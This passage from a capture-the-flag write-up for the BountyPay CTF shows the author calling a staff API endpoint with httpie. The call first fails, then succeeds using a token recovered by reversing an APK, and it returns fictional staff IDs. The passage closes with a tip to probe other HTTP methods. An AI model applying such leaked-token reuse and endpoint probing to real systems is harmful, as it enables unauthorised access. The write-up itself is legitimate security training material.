 ## Know your staff

### Getting an account on staff.bountypay

We ommitted some things when doing the reconnaiscance, to make the report more readable, that we now need since we don't know what to do with the token that we got from reversing the APK.

The most interesting thing is that there is a staff endpoint on the api which throws an error saying `Missing or invalid Token`:

```
http get https://api.bountypay.h1ctf.com/api/staff
```

```HTTP
HTTP/1.1 401 Unauthorized
Connection: keep-alive
Content-Type: application/json
Date: Thu, 04 Jun 2020 19:50:18 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

[
    "Missing or invalid Token"
]
```

Let's see what happens when we send the token that we got from reversing the apk:

```
http get https://api.bountypay.h1ctf.com/api/staff \
X-Token:8e9998ee3137ca9ade8f372739f062c1
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json
Date: Wed, 03 Jun 2020 20:37:41 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

[
    {
        "name": "Sam Jenkins",
        "staff_id": "STF:84DJKEIP38"
    },
    {
        "name": "Brian Oliver",
        "staff_id": "STF:KE624RQ2T9"
    }
]
```

The endpoint now returns two accounts. Something I did not notice at first is that the same endpoint also answers to POST requests. This can be explained since in part II, I limited my recon to enumerating directories and files using GET requests. Something to keep in mind when working with APIs, always test the different HTTP methods 😉
